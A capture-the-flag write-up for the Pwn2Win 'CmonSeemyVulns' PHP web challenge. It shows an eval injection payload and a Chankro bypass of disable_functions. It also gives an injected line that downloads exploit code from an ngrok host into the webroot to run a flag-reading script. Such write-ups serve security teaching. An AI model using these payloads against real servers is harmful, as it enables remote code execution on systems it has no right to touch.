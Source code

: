 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: pwn2win web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given the source code for the Dockerfile, we can build it locally and work on it directly on our own system.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

The 7th line of the code appears to contain an `eval` function that is called within the `do_calcs` function. 
This function is called in line 17 of the code. Before we can examine this further, we need to check the 4th line of the code, which appears to contain a regular expression pattern. 
This suggests that our PHP code must be placed within `{{PHP EVAL CODE}}` in order to be evaluated properly.

![code](https://user-images.githubusercontent.com/84577967/174358220-78ffee4d-d1ee-49f5-a2c8-4b474068e8b5.png)

# Solution

Let's try to send a simple payload `200,{{phpinfo()}}`

![phpinfo](https://user-images.githubusercontent.com/84577967/174358466-4c209820-f9e6-48ca-892a-030d8d922abf.png)

This simple `phpinfo` function is going to be executed

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But if we take a look on the disabled functions list, we see a list of functions that are restricted or not available for use.

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

In cases where we need to bypass disabled functions, we can use [Chankro](https://github.com/TarlogicSecurity/Chankro)

First let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Now that we have saved the shell, we can host it on a local web server using PHP or Python.

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

![payload](https://user-images.githubusercontent.com/84577967/174358048-7ea473ea-06b6-407b-9f1e-e89ff5b433ad.png)

After that we can browser the file http://127.0.0.1:1337/exploit.php

# Flag

We should be able to retrieve the flag easily http://127.0.0.1:1337/flag.txt
